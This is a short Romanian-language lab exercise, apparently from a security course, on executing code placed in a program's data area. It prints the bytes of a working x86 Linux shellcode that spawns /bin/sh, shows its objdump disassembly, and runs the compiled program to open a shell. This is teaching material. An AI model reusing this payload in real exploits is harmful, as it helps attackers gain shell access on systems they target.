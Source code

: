 # Shellcode Static

În anumite condiții, programele pot executa cod aflat în zona de date.

Examinați conținutul fișierului `shellcode-static.c` și folosiți comanda `make` pentru a compila fișierul.

Observați că programul execută instrucțiunile din variabila `shellcode`.

Pentru a examina instrucțiunile din variabila `shellcode`, folosiți:

``` shell
$ echo -n "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" > /tmp/test
$ objdump -D -M intel -b binary -m i386 /tmp/test


/tmp/test:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   89 c1                   mov    ecx,eax
  11:   89 c2                   mov    edx,eax
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
  17:   31 c0                   xor    eax,eax
  19:   40                      inc    eax
  1a:   cd 80                   int    0x80
```

Nu executați niciodata cod fără să îl examinați în prealabil.

Lansați programul în execuție:

``` shell
$ ./shellcode-static 
$ whoami
kali
```

Observați cum codul din variabila `shellcode` va porni un shell de sistem.
